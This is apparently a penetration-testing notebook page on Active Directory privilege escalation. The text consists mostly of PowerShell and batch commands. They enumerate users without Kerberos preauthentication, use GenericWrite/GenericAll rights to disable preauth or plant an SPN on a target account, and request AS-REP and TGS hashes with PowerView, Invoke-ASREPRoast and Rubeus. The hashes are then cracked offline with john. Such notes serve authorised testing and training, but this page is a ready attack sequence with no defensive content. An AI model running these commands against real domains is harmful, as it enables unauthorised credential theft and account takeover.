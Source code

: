 ```yaml
---
tags:
  - privesc
cssclasses:
  - AS-REP
  - UAC
  - kerberos-preauth
---
```

If a user's UAC setting has "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute force it offline. With sufficient rights (`GenericWrite` or `GenericAll`), Kerberos preauth can be forced disabled as well.

#### Enumerating accounts with preauth disabled

```powershell title:"Using Powerview"
Get-DomainUser -PreauthNotRequired -Verbose
```

```powershell title:"Using ActiveDirectory module"
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
#### Force disable Kerberos Preauth

```powershell title:"Enumerate the permissions for a group on ACLs and set the UAC to DoesNotRequirePreAuth"
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "groupname"}
Set-DomainObject -Identity userofthatgroup -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
```

```powershell title:"Request encrypted AS-REP for offline brute-force"
Get-ASREPHash -UserName username -Verbose
```

```powershell title:"Enumerate all users with Kerberos preauth disabled and request a hash"
Invoke-ASREPRoast -Verbose
```

```batch title:"Crack the AS-REP to obtain the user's password using john"
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
```

#### Leveraging permissions to change a user's SPN

- With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in domain).
- We can then request a TGS without special privileges. The TGS can then be [Kerberoasted](Kerberoasting).

```powershell title:"Enumerate the permissions for a group on ACLs using PowerView"
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "groupname"}
```

```powershell title:"Check if the user already has a SPN (PowerView)"
Get-DomainUser -Identity userofthatgroup | select serviceprinciplename
```

```powershell title:"Check if the user already has a SPN (Active Directory Module)"
Get-ADUser -Identity userofthatgroup -Properties ServicePrincipleName | select ServicePrincipleName
```

```powershell title:"Set a SPN for the user (must be unique for the domain) (Using PowerView)"
Set-DomainObject -Identity userofthatgroup -Set @{serviceprincipalname='service/serviceprovider'}
```

```powershell title:"Set a SPN for the user (must be unique for the domain) (Using ActiveDirectory Module)"
Set-ADuser -Identity userofthatgroup -ServicePrincipleNames @{Add='service/serviceprovider'}
```

```batch title:"Kerberoast that user"
Rubeus.exe kerberoast /outfile:targetedhashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```


